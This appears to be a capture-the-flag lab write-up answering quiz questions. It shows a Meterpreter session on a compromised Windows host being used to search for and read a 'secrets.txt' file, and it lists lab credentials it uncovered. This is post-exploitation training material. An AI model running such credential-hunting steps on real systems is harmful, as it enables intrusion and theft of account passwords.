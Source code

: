 What is the cleartext password of the jchambers user?  `Trustno1`

Where is the "secrets.txt" file located? (Full path of the file)  `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt `

```
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd "Program Files (x86)"
meterpreter > pwd
C:\Program Files (x86)
meterpreter > ls
Listing: C:\Program Files (x86)
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-03-11 07:29:52 +0000  AWS SDK for .NET
040777/rwxrwxrwx  4096  dir   2021-03-11 07:29:53 +0000  AWS Tools
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  Common Files
040777/rwxrwxrwx  4096  dir   2020-03-18 06:47:41 +0000  Internet Explorer
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  Microsoft.NET
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Defender
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:03 +0100  Windows Mail
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Media Player
040777/rwxrwxrwx  0     dir   2021-07-30 21:33:31 +0100  Windows Multimedia Platform
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Photo Viewer
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:03 +0100  Windows Portable Devices
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  Windows Sidebar
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  WindowsPowerShell
100666/rw-rw-rw-  174   fil   2018-09-15 08:16:48 +0100  desktop.ini
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  windows nt

meterpreter > cd "Windows Multimedia Platform"
meterpreter > pwd
C:\Program Files (x86)\Windows Multimedia Platform
meterpreter > ls
Listing: C:\Program Files (x86)\Windows Multimedia Platform
===========================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  35     fil   2021-07-30 08:44:27 +0100  secrets.txt
100666/rw-rw-rw-  40432  fil   2018-09-15 08:12:04 +0100  sqmapi.dll

meterpreter > cat secrets.txt
My Twitter password is KDSvbsw3849!
```
What is the Twitter password revealed in the "secrets.txt" file? `KDSvbsw3849`
